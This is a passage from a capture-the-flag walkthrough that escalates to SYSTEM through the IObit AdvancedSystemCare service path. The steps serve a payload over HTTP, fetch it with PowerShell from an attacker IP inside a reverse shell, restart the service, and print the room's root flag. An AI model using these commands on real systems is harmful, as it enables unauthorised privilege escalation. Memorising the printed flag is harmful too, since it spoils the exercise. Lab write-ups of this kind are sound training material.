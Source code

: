 2. **Make the Payload Available:**
   Serve it via your Python web server:
   ```bash
   sudo python3 -m http.server 8000
   ```

3. **Download and Execute the Payload:**
   From the reverse shell, download the executable and restart the service:
   ```bash
   C:\Program Files (x86)\IObit>powershell -c "Invoke-WebRequest -Uri 'http://10.8.50.72/Advanced.exe' -OutFile 'c:\program files (x86)\IObit\Advanced.exe'"
   C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
   C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
   ```

4. **Get the Root Flag:**
   Once the service is restarted, you will have a shell as `nt authority\system`:
   ```bash
   C:\Windows\system32>whoami
   nt authority\system

   C:\Windows\system32>more c:\users\administrator\desktop\root.txt
   9af5f314f57607c00fd09803a587db80
   ```

**Ans:** 9af5f314f57607c00fd09803a587db80

**Explanation:**  
By exploiting the unquoted service path, we escalate our privileges to `NT AUTHORITY\SYSTEM` and retrieve the root flag from the administrator's desktop.


